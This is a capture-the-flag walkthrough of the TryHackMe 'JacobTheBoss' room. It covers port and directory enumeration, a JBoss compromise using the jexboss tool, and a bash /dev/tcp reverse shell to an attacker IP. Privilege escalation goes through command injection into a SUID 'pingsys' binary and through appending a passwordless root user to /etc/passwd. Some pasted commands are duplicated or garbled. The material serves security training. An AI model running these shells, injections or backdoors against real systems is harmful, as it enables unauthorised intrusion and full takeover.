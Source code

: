 # 58 - JacobTheBoss (jboss exploitation)

Room Link --> [https://tryhackme.com/room/jacobtheboss](https://tryhackme.com/room/jacobtheboss)

\*First of all, add the `jacobtheboss.box` address to your hosts file.

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.203.6 -p- -T4 -T5 -sV

22/tcp    open  ssh          syn-ack OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http         syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
111/tcp   open  rpcbind      syn-ack 2-4 (RPC #100000)
1090/tcp  open  java-rmi     syn-ack Java RMI
1098/tcp  open  java-rmi     syn-ack Java RMI
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack Java Object Serialization
4444/tcp  open  java-rmi     syn-ack Java RMI
4445/tcp  open  java-object  syn-ack Java Object Serialization
4446/tcp  open  java-object  syn-ack Java Object Serialization
4457/tcp  open  tandem-print syn-ack Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack
8009/tcp  open  ajp13        syn-ack Apache Jserv (Protocol v1.3)
8080/tcp  open  http         syn-ack Apache Tomcat/Coyote JSP engine 1.1
8083/tcp  open  http         syn-ack JBoss service httpd
39195/tcp open  unknown      syn-ack
42774/tcp open  java-rmi     syn-ack Java RMI
43179/tcp open  unknown      syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://jacobtheboss.box -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403,404 -x php,txt,db,sql,ini

/index.php
/themes
/public
/admin
/LICENSE
/CHANGELOG
/CREDITS
/locales
```
{% endcode %}

Visiting port 8080

[http://jacobtheboss.box:8080/](http://jacobtheboss.box:8080/jmx-console/HtmlAdaptor?)

### Initial Access

I searched for the jboss exploit, and hacktricks rediected me to this [link](https://github.com/joaomatosf/jexboss).

Clone the repo and run the script.

```bash
python3 jexboss.py -u http:///jacobtheboss.box:8080/

# and got a limited shell.
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Getting a better shell

Setup NC listener and run this in the restricted shell.

```bash
Shell> /bin/bash -i > /dev/tcp/10.18.88.214/4242 0<&1 2>&1
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Shell is a bit stable now.

### Priv Esc

{% code overflow="wrap" lineNumbers="true" %}
```bash
[jacob@jacobtheboss ~]$ finfind / -user root -perm -4000 2>/dev/null
find / -user root -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
[jacob@jacobtheboss ~]$
```
{% endcode %}

That `/usr/bin/pingsys` is an interesting binary. @ ways to exploit it:

#### Option 1

We enter the below cmd and got root.

```bash
[jacob@jacobtheboss ~]$ /usr/bin/pingsys '10./usr/bin/pingsys '10.10.203.6; /bin/bash'
/usr/bin/pingsys '10.10.203.6; /bin/bash'
PING 10.10.203.6 (10.10.203.6) 56(84) bytes of data.
64 bytes from 10.10.203.6: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 10.10.203.6: icmp_seq=2 ttl=64 time=0.028 ms
64 bytes from 10.10.203.6: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from 10.10.203.6: icmp_seq=4 ttl=64 time=0.029 ms

--- 10.10.203.6 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.014/0.026/0.034/0.008 ms
[root@jacobtheboss ~]# 


```

#### Option 2

In this command below, “0” is the UID of the root user, so adding a user with the UID of “0” will give that user root privileges. This user will have the username of “dking” and an empty password:

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/bin/pingsys ‘10.10.244.174; echo dking::0:0:pwned by d31ng:/root/root:/bin/bash >> /etc/passwd
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*CRQ5jvlqgT95SoEsiJg6JQ.png" alt="" height="210" width="700"><figcaption></figcaption></figure>

Done!
